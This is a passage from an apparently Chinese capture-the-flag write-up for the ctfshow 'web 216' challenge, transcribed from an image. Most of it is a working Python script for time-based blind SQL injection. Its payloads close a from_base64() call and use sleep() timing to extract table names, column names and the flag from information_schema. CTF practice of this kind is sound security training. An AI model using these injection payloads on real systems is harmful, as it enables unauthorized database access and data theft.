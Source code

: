 ```python
        start_time = time.time()
        r = requests.post(url=url, data=payload).text
        end_time = time.time()
        sub = end_time - start_time
        if sub >= 0.5:
            max = j
        else:
            min = j
```

## web 216

给`/api/`接口发请求`ip=1&debug=1`，返回了sql语句`select id from ctfshow_info where ip = from_base64($_POST[ip]);`，题目想接收一个base64编码的内容，不给，直接填充闭合`from_base64()`函数，稍加修改上题的脚本接着打

```python
import requests
import time
url = 'http://ccc4c05d-4990-48cd-b95f-6d90b024dd7f.challenge.ctf.show/api/'
str = ''
for i in range(60):
    min,max = 32, 128
    while True:
        j = min + (max-min)//2
        if(min == j):
            str += chr(j)
            print(str)
            break
        # 爆表名 ctfshow_flagxc
        payload = {
            'ip': f"'1111') or if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{i},1))<{j},sleep(0.5),'False')#",
            'debug': 0
        }
        # 爆列 flagaa
        # payload = {
        #     'ip': f"'1111') or if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagxc'),{i},1))<{j},sleep(0.5),'False')#",
        #     'debug': 0
        # }
        # 爆值 
        # payload = {
        #     'ip': f"'1111') or if(ascii(substr((select group_concat(flagaa) from ctfshow_flagxc),{i},1))<{j},sleep(0.5),'False')#",
        #     'debug': 0
        # }
        start_time = time.time()
        r = requests.post(url=url, data=payload).text
        end_time = time.time()
        sub = end_time - start_time
        if sub >= 0.5:
            max = j
        else:
            min = j
```
